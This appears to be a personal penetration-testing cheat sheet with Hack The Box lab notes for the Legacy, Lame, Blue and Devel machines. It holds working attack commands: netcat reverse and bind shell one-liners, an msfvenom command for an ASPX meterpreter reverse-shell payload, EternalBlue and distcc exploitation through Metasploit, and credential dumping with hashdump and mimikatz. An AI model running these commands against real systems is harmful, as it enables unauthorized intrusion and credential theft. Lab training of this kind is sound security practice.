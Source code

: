 ### Host files from current dir 
` python -m SimpleHttpServer 8080 `
 
### python tools for network 
https://github.com/SecureAuthCorp/impacket

### Given a string, cut at delimiter ( space) and take 4th field as a result
cut -d " " -f 4  

## Recon

### Website tech identification
whatweb - Kali cli tool for identifying site ( better than most)

Wappalyzer - extension on browser

### netdiscover - arp in the network

netdiscover -r 192.168.88.0/24

### nmap
-sS - "Stealh scan" (not really , just syn, synack and RST - no sessions established) 

nmap -sS 192.168.88.128

nmap -T4 -p- -A

-p- - all ports  ( default is top 1000 ports) ;   -A - scan everything , version, OS, fingerprint

### SMB (and metasploit workflow)

msfconsole

search smb 

use auxiliary/scanner/smb/smb_version 

set RHOSTS 192.168.88.128

run

### nice to knows 
dpkg -i downloaded_package.deb  # install a package

### reverse shell ( just like pentestmonkey )
nc 192.168.1.1 4444 -e /bin/sh        --->   nc -lvp 4444

### bind shell 
nc 192.168.1.1 4444     ---->  nc -lvp 4444 -e /bin/sh

### Foxyproxy productivity 
use foxyproxy addon and add burpsuite settings to it. easy switching 


## Legacy
nmap -sS -p- 10.10.10.4 

nmap -A -p139,445,3389 10.10.10.4

nmap --script vuln -p445 10.10.10.4    ( looked at write-up for this to scan for vulns )

Find MS08-067(works) and  ms17-010(doesnt work)   Eternalblue.

search -f user.txt    , same for root. gg

learned from video :  getuid - windows whoami equivalent , sysinfo - obvious, help - meterpreter help ( lots of useful commands) ;
getsystem attempts to privesc ( might be a bit reckless)

## Lame
nmap --script vuln -p3632 10.10.10.3

3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))

distcc indicated as vulnerable, msf unix/misc/distcc_exec gives shell

find / -user root -perm -4000 -print 2>/dev/null      ( find binaries with root privs)

elevate privileges with nmap ( should learn something new instead...)

https://pentestlab.blog/category/privilege-escalation/  

## blue
as name indicates

nmap --script vuln -p445 10.10.10.3   reports windows/smb/ms17_010_eternalblue)

didnt work on first try, resetted machine, tried other exploits, but this one eventually worked. 

##### video stuff
original exploit uses generic shell, but it is possible to "set payload windows/x64/meterpreter/reverse_tcp"  for improvement

*Autoblue* can be used and can deselect meterpreter (OSCP lol) . more manual and not msf

postexploit in windows: hashdump(meterpreter) , route print(shell) , arp -a(shell) , netstat -ano ( shell), ps (meterpreter)

meterpreter > load kiwi, mimikatz , a lot of stuff. Kiwi  : samdump, dumpsecrets

## devel
IIS7 with file upload by FTP. 

making payloads with msfvenom

msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.36 LPORT=4444 -f aspx -o shell.aspx 

Needed write-up because new to IIS shells, and windows privesc. 

set payload windows/meterpreter/reverse_tcp

msf5 > use exploit/multi/handler

msf5 exploit(multi/handler) > set lhost 10.10.14.36

msf5 exploit(multi/handler) > set lport 4444

background and session management.. anyway all thanks to https://x64.moe/hackthebox%20walkthrough%20:%20devel/

use post/multi/recon/local_exploit_suggester    ## for local exploits, new for me

##### video stuff
/usr/share/wordlists/ for dirbuster and other tools

FTP : if file transfer is failing, switch to binary mode with "I" option

privesc : sometimes inside meterpreter "getsystem" is enough lol ( not here)

